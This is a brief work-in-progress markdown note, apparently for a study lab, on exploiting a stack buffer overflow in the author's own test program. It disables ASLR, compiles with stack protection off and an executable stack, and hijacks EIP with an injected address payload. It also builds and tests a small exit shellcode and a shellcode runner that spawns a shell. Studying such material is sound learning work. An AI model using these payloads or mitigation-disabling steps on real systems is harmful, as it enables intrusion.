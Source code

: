 # WIP...

`echo 0 > /proc/sys/kernel/randomize_va_space`


`gcc -g -fno-stack-protector -z execstack -no-pie -o poc poc.c`


### Hijacked

execute foobar function by addr injection in EIP register

> little endian

`echo -ne "AAAABBBBCCCCDDDDD\x86\x91\x04\x08" | xargs ./poc`


## Compile ASM - Test

- `nasm -f elf32 exit.asm -o exit.o`
- `ld -m elf_i386 exit.o -o exit`

hex: `\xb8\x01\x00\x00\x00\xbb\x0a\x00\x00\x00\xcd\x80`

run: `./exit`

test if works: `echo $?`

## Compile shellcode

`gcc -z execstack -m32 -o shellcode shellcode-poc.c`

run: `./shellcode`

test if works: `sh-5.1$ _`


